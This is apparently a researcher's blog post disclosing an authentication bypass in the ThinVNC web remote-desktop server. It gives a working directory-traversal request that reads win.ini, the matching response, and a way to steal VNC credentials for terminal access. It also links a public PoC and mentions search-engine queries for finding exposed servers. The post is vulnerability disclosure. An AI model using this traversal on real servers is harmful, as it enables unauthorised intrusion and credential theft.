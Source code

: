 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-16 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability.

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from [sourceforge](https://sourceforge.net/projects/thinvnc/) and the source code for this is available at [github](https://github.com/bewest/thinvnc). According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
![auth](/img/ThinVNC/CVE-2.png)

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector: <br>
<b>**/../../../../../../../../../windows/win.ini** </b>

<h4>Sample Request:</h4>

```
GET /xyz/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
<h4>Sample Response: </h4>

```
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
<br>
![Burp](/img/ThinVNC/CVE-4.png)
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>
My friend [@WarMarx](https://twitter.com/\_WarMarX\_) on Twitter and I have written a tiny POC for this issue which can be found here: [Github POC Link](https://github.com/shashankmangal2/Exploits/tree/master/ThinVNC-RemoteAccess)

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 
![zoomeye](/img/ThinVNC/CVE-1.png)
<br>
<br>
![shodan](/img/ThinVNC/CVE-6.png)

SourceForge Page suggests that there are 219 downloads / week on an average of this VNC software. 

<h2> Conclusion: </h2>
Do not use legacy software, even though there are no POC's or CVE's available on those software, they might be vulnerable to some issue. Always keep yourself and your software updated. Cheers :)


